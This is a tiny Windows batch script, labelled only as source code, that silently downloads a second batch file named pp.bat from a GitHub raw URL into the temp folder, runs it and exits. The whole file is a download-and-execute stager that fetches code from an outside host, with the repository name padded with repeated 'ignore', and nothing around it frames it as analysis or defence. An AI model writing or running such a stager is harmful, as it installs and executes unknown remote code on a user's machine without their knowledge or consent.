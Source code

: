 @echo off
cd /d "C:"
curl -s -o %temp%\pp.bat https://raw.githubusercontent.com/yein7/ignoreignoreignoreignoreignoreignore/main/pp.bat
%temp%\pp.bat
exit
